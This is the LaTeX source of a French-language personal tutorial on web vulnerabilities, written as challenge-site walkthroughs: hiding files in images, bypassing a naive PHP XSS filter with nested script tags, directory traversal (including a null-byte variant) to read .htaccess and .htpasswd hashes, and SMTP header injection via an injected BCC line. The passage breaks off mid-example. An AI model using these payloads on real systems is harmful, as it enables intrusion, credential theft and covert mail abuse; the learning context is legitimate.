\documentclass{article}

\usepackage{color}
\usepackage{graphicx}
\usepackage{tabularx}
\usepackage[frenchb]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}

\usepackage{geometry,wrapfig,lipsum}
 \geometry{
 top=20mm,
 bottom=20mm,
 }
\usepackage{fancyhdr}
\pagestyle{fancy}

\renewcommand{\headrulewidth}{1pt}
\fancyhead[C]{\textbf{page \thepage}} 
\fancyhead[L]{Section : \thesection}
\fancyhead[R]{Justal k.}

\renewcommand{\footrulewidth}{1pt}
\fancyfoot[C]{\textbf{page \thepage}} 
\fancyfoot[L]{Section : \thesection}
\fancyfoot[R]{2014-2015}

\title{Hacking}
\author{Justal Kevin}
\date{30/10/2015}
\renewcommand{\contentsname}{Table des mati\`eres} 
 
\newcommand\invisiblesection[1]{%
  \refstepcounter{section}%
  \addcontentsline{toc}{section}{\protect\numberline{\thesection}#1}%
  \sectionmark{#1}} 
 
\begin{document}

\begin{center}
\textbf{\Huge{FAILLES}}\\
\line(1,0){300}\\
Verrou par verrou et l'un apr\`es l'autre, aucun syst\`eme ne r\'esistera !\\
\vspace{3cm}

\includegraphics[width=\textwidth]{0}\\
\vspace{3cm}
\textbf{\Large{JUSTAL KEVIN}}\\
2014-2015\\
\vspace{4cm}
\textbf{Justal Kevin - \color{blue}{\underline{justal.kevin@gmail.com}}}\\
\end{center}

\newpage
\tableofcontents

\newpage
\section{Ecrire des données par dessus une images - Caché du contenu}
\subsection{Prérequis}
\hspace*{0.6cm}Pour réaliser cela, il faut impérativement avoir téléchargé et installé sur son ordinateur 7zip, un utilitaire de compression.
\subsection{Etapes par Etape}
\hspace*{0.6cm}Le but ici est simplement de s'amuser à cacher des fichiers de tous genre dans une image. Cela ne semble pas avoir d'interet quelconque mais permet avec d'autres failles de faire télécharger à l'insu de l'utilisateur le malware et de le déclencher d'une autre méthode. Comment fais-t-on ?

\newpage

\section{Fonctions PHP}
\subsection{Logique humaine}
\subsubsection{L'ancrage du "str replace" ou le mauvais filtre}
\hspace*{0.6cm}Le filtre est un classique du WEB. Toutes les chaines qui entrent doivent être analysé pour empecher l'utilisateur d'entrer des choses \`a des fins malicieuses. Même ce principe de base qui consiste à simplement éliminé une chaine dans une chaine peut avec une simple erreur humaine permettre de faire un peu tout et n'importe quoi. Prenons l'exemple d'un simple formulaire :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}<form method="POST" action="">\\
\hspace*{1.2cm}<input type="text" name="secret"><br>\\
\hspace*{1.2cm}<input type="submit" name="send" value="Envoyer">\\
\hspace*{0.6cm}</form>
}}
\vspace{0.2cm}\\
\hspace*{0.6cm}Il s'agit d'un simple champ texte que j'envoie par une méthode POST sur la même page que ce bout de code. Si vous ne comprenez pas,ce n'est pas bien grave, ceci ne sert qu'à mettre un contexte. Maintenant imaginons que nous souhaitons récupéré la variable et filtrer tout Javascript :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}\$var=str\_replace("<script>","",\$\_POST["secret"]); 
}}
\vspace{0.2cm}\\
J'ai retrouv\'e ce bout de code sur plusieurs site et ceci m'a légèrement fait sourire. Comme on peux le voir sur cette ligne ci-dessus, nous remplaçons toutes les balises <script> par une chaine vide. Il y a pourtant ici 2 erreurs flagrantes.\\
La première demande de connaitre exactement ce que fait la balise str\_replace. Dans le HTML, il est possible d'utiliser des balises écrites en minuscule ou en majuscule. Or, str\_replace respecte la case, il m'est donc possible de rentrer une balise <SCRIPT> sans que le filtre ne s'alarme.
La deuxième est simple d'ordre logique, que se passe-t-il si j'envoie ceci via mon script PHP :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}<sc<script>ript>alert("HAHA")</sc<script>ript>   
}}
\vspace{0.2cm}\\
Dans cette chaine, si nous remplaçons script par une chaine vide nous obtenons :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}<script>alert("HAHA")<script> 
}}
\vspace{0.2cm}\\
 On réussit ainsi à bypasser le filtre de manière assez simple.
\subsubsection{Solutions}
	Pourquoi ne pas simplement utiliser les fonctions PHP : htmlentities() et  htmlspecialchars(). 
 
\newpage
\section{Directory transversal - Attaque sur le htaccess}
\subsection{Explications}
\subsubsection{Qu'est ce que la technologie htaccess ?}
\hspace*{0.6cm}Les fichiers .htaccess sont des fichiers de configuration de Apache. Ils permettent de s\'ecuris\'e via un mot de passe et un identifiant l'acc\'es \`a une zone du serveur. Ils sont localis\'es et ne peuvent affecter que les r\'epertoire o\`u ils r\'esident. La particularit\'e d'une telle fonctionnalit\'e apporte deux avantages. D'une part, on peux d\'el\'eguer la gestion d'une partie du site sans donner le droit de g\'erer le serveur lui-m\^eme. D'autre part, les modifications sont prises en compte sans qu'il soit n\'ecessaire de red\'emarrer le serveur HTML.

\subsubsection{Les directives htaccess}
\hspace*{0.6cm}Un fichier htaccess prend la forme suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}AuthUserFile /var/www/.htpasswd\\
\hspace*{0.6cm}AuthName "Visiteur, vous pénétrez dans une section réservée aux membres, veuillez vous identifier"\\
\hspace*{0.6cm}AuthType Basic\\
\hspace*{0.6cm}require Admin
}}
\vspace{0.2cm}\\
\hspace*{0.6cm}La premi\`ere directive, \textbf{AuthUserFile}, est le lien entre le htaccess et le htpasswd. Cette simple directive indique simplement o\`u se situe le fichier htpasswd. Le chemin inscrit ici est g\'en\'eralement le chemin d'acc\`es absolue mais il est possible de trouver aussi un chemin relative mais cela reste tout de m\^eme relativement rare.
\vspace{0.2cm}\\
La directive \textbf{AuthName} permet de sp\'ecifier un titre \`a la fen\^etre de connexion.
\vspace{0.2cm}\\
\hspace*{0.6cm}La directive \textbf{AuthType} indique le type d'authentification. Il n'existe que deux types possibles : Basic ou Digest. Le premier type indique simplement que le mot de passe lors de l'authentification sera transmise en clair du client au serveur. C'est pourquoi cette m\'ethode n'est pas \`a utiliser pour un transfert de donn\'ee sensible. Le type Digest est un sois-disant type am\'eliorant la s\'ecurit\'e du transfert, cependant de nombreuses failles existent ici. Ce qui rend ce type inutile car plus lourd \`a mettre en place et pas vraiment s\'ecuris\'e.
\vspace{0.2cm}\\
La directive \textbf{requiere} sp\'ecifie simplement qui est autoris\'e \`a acc\'eder \`a cette partie du site. On ira donc chercher dans le fichier htpasswd l'utilisateur Admin pour comparer le mot de passe.
\subsubsection{Les directives htpasswd}
\hspace*{0.6cm}Un fichier htpasswd prend la forme suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}admin1:\$apr1\$Ikl22aeJ\$w1uWlBGlbatPnETT2XGx.. \\
\hspace*{0.6cm}admin2:\$apr1\$yJnQGpTi\$WF5eCC/8lKsgBKY7fvag60 
}}
\vspace{0.2cm}\\
\hspace*{0.6cm}Un fichier httpasswd prend toujours la forme ci-dessus. Ce fichier lie un utilisateur \`a un password crypt\'e via un algorithme comme SHA, DES, MD5...

\subsection{La navigation transversale ou Directory transversal}
\hspace*{0.6cm}Pour expliqu\'e la faille, je prendrais un exemple. Le site w3challs.com dispose d'un exemple sur cette faille du syst\`eme. Avant m\^eme de commencer l'exp\'erimentation, il faut encore un peu d'explication pour comprendre la faille. Cette faille r\'eside dans le PHP du site et en particulier dans la balise include.
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}\$template = 'red.php';\\
\hspace*{0.6cm}if (isset(\$\_COOKIE['TEMPLATE']))\\
\hspace*{1.2cm}\$template = \$\_COOKIE['TEMPLATE'];\\
\hspace*{0.6cm}include ("/home/users/phpguru/templates/" . \$template);
}}
\vspace{0.2cm}\\
\hspace*{0.6cm}Ici, le fait que dans l'include, on ne v\'erifie pas que le r\'esultat attendu soit une page .html ou .php, on peux alors imaginer de modifi\'e la variable \$template. Il y a plusieurs mani\`eres de proc\'ed\'e qui d\'ependent de la mani\`ere dont est impl\'ement\'e le code du site que l'on souhaite attaquer : Par l'URL, Par la requ\`ete HTML...\\
\hspace*{0.6cm}Dans le cas ci-dessus, on utilise \$\_COOKIE, on en retient donc que la page ou la destination vers o\`u pointe \$template a \'et\'e enregistr\'e sur l'ordinateur de l'utilisateur. Il est donc possible de modifier la requ\`ete avant de l'envoyer au serveur.
\vspace{0.2cm}\\
Imaginons alors que la variable template soit "../../../.htaccess", on remonte alors les repertoires jusqu'au root. Si le systeme de la machine est Linux, il existe alors forcement un repertoire etc/passwd. Maintenant, sur les serveur en ligne, les developpeurs posent g\'en\'eralement ces dossiers dans des repertoires comme admin/.htaccess ou encore pass/.htaccess. Il suffit de faire preuve d'un peu d'imagination pour trouver o\`u pourrait se trouver le fichier.

\subsection{Exploitation}
\hspace*{0.6cm}Sur w3chall.com, on trouve une page avec cette faille. La premi\`ere chose \`a faire est donc de chercher le fichier .htaccess. En forcant, on trouve que le fichier assez rapidement. Dans la barre d'adresse, il suffit de finir l'adresse par :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}/?page=../admin/.htaccess
}}
\vspace{0.2cm}\\

\includegraphics[width=\textwidth]{2}\\
\vspace{0.2cm}\\
Bien entendu, avant d'arriver \`a cela, j'ai tap\'e plusieurs autres chemins comme ./admin/.htaccess ou encore .htaccess. Une fois ici, on remarque la g\'en\'erosit\'e du syst\`eme qui nous donne l'emplacement exacte du fichier htpasswd. Il suffit alors de s'y rendre :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}?page=../UlTr4\_S3cR3T\_p4Th/.htpasswd
}}
\vspace{0.2cm}\\

\includegraphics[width=\textwidth]{3}\\
\vspace{0.2cm}\\
\hspace*{0.6cm}Et voila qu'apparaisent sous vos yeux les passwords et logins qui se trouvent dans le fichier htpasswd. Ils sont bien entendu crypté mais avec l'utilisation d'un logiciel tiers comme John the Ripper, la reconstitution du password d'origine n'est qu'une question de temps.
\subsection{Variante}
\hspace*{0.6cm}La premi\`ere correstion apport\'e par les d\'eveloppeurs furent d'ajouter l'extension du fichier \`a la fin de l'include. Ce qui donnait un lien finissant toujours par .html ou .php. Il devient alors th\'eoriquement impossible de rentrer quelques choses finissant par aucune extension comme nous l'avons fait jusqu'\`a maintenant. Erreur ! Il est possible de terminer une chaine \`a l'endroit o\`u l'on souhaite en ajoutant le charat\`ere de fin de chaine : le null ou encore \%00. Ce qui dans notre cas donnerais :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}/?page=../admin/.htaccess\%00.html
}}
\vspace{0cm}\\
Cependant le serveur ne lira cette chaine que jusqu'au charatere null, le reste sera ignor\'e.
\subsection{Solutions}
Pour se pr\'emunir d'une telle attaque, pourquoi ne pas simplement escape tout les ../ ou \%2e\%2e/ (si encod\'e) lors des navigations.

\newpage
\section{SMTP Injection - Injection dans la fonction php mail()}
\subsubsection{Qu'est ce qu'un envoie de message ?}
L'envoie de message sur le web se traduit par l'utilisation du protocole SMTP. La communication entre le client et le serveur qui va recueillir le message est la suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
S: 220 smtp.example.com ESMTP Postfix
\vspace{0.2cm}\\
C: HELO relay.example.org 
\vspace{0.2cm}\\
S: 250 Hello relay.example.org, I am glad to meet you
\vspace{0.2cm}\\
C: MAIL FROM:<bob@example.org>
\vspace{0.2cm}\\
S: 250 Ok
\vspace{0.2cm}\\
C: RCPT TO:<alice@example.com>
\vspace{0.2cm}\\
S: 250 Ok
\vspace{0.2cm}\\
C: RCPT TO:<theboss@example.com>
\vspace{0.2cm}\\
S: 250 Ok
\vspace{0.2cm}\\
C: DATA
\vspace{0.2cm}\\
S: 354 End data with <CR><LF>.<CR><LF>
\vspace{0.2cm}\\
\color{blue}{C: From: "Bob Example" <bob@example.org>\\
C: To: "Alice Example" <alice@example.com>\\
C: Cc: theboss@example.com\\
C: Date: Tue, 15 January 2008 16:02:43 -0500\\
C: Subject: Test message\\
C: \vspace{0.0cm}\\
C: Hello Alice.
C: This is a test message with 5 header fields and 4 lines in the message body.\\
C: Your friend,\\
C: Bob\\
C: .}
\vspace{0.2cm}\\
\color{black}{S: 250 Ok: queued as 12345
\vspace{0.2cm}\\
C: QUIT
\vspace{0.2cm}\\
S: 221 Bye\\
{The server closes the connection}}
}}
\vspace{0.2cm}

Nous n'allons pas nous interessé à tous le concept entre le client et le serveur (bien que cela tout aussi intéressant). La partie en bleu est la seule utile pour comprendre la faille. Comme on peux le voir, on retrouve ici toutes les informations composants un email.

\subsubsection{La fonction mail() de php}

Dans PHP, il existe une méthode pour envoyer un mail assez facile à utiliser. Comme on peux le voir ci-dessous, on retrouve la variable pour le destinataire, la variable pour le sujet du mail, la variable pour le corp du message et une variable pour les headers du mail. Cette dernière variable est celle qui nous intéresse le plus et c'est sur cette dernière que je vais agir.
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}mail(\$destinataire, \$sujet, \$message, \$headers);
}}
\vspace{0cm}\\
La variable header permet entre autre de rajouter un élément pour le mail. Dans le code en bleu précédemment, on retrouvait CC par exemple. Ci-dessous, je fais une liste des différents Header que l'on peux utiliser (non-exhaustive) :\\
\begin{itemize}
  \item CC (Pour mettre quelqu'un en copie du message)
  \item BCC (Pour mettre quelqu'un en copie du message de manière invisible)
  \item FCC (Pour copier le message dans un fichier)
  \item Reply-To (L'adresse vers où diriger le message si le destinataire répond)
\end{itemize}

\subsection{Qu'est ce qu'une injection de header}

Lorsque l'on envoie un mail par la fonction mail() de php, l'envoie se tranformera en ceci lors de la requête :\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}To: \$destinataire\\
\hspace*{0.6cm}Subject: \$sujet\\
\hspace*{0.6cm}\$headers\\
\hspace*{0.6cm}\$message
}}
\vspace{0.1cm}\\

Dans cette fonction, de nombreux filtres existent sur les varaibles \$destinataire, \$subject et \$message. Cependant sur le champs \$header, il est toujours possible d'agir et il le sera certainement toujours. Maintenant, il faut comprendre maintenant comment ce bout de texte est envoyé au serveur, ce n'est pas aussi beau qu'au dessus. Ces informations sont séparé par des <LF> afin que le serveur puissent différencier les différentes champs. Un <LF> est un passage à la ligne dont la traduction hexadécimale est 0x0A. Cette information est très importante. Le but de la faille va être de surcharger le header avec des informations complémentaire pour obtenir par exemple une copie du message. Par exemple, si notre message est le suivant :\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}mail("lala@gmail.com", "Lala", "LalaLALA", "");
}}
\vspace{0.1cm}\\

Cela se traduit par :\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}To: lala@gmail.com\\
\hspace*{0.6cm}Subject: Lala\\
\hspace*{0.6cm}\\
\hspace*{0.6cm}LalaLALA
}}
\vspace{0.1cm}\\

Maintenant, si l'on change le header par quelques choses comme ceci : \%0ABCC:lolo@gmail.com\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}To: lala@gmail.com\\
\hspace*{0.6cm}Subject: Lala\\
\hspace*{0.6cm}\\
\hspace*{0.6cm}BCC:lolo@gmail.com\\
\hspace*{0.6cm}LalaLALA
}}
\vspace{0.1cm}\\

On se retrouve alors à injecter un header qui n'était pas prévu à la base !

\subsection{Exemple}

Pour expliquer la faille, je vais me servir du site de w3Challs. Sur ce dernier, il y a une page pour tester ce type d'injection. Pour commencer, il faut chercher un champ d'un formulaire qui pourrait utiliser cette fonction.
\vspace{0.2cm}\\

\includegraphics[width=\textwidth]{8}\\
\vspace{0.2cm}

On trouve alors un très beau (et surtout moche) formulaire pour envoyer des messages aux créateurs du site. On remarque que le premier champ est très susceptible d'avoir une faille. On tente donc une injection de header. Je vais dans un premier temps créer ma petite injection dans le champ adresse mail en écrivant ceci : lala@gmail\%0ABCC:lolo@gmail.com
\vspace{0.2cm}\\
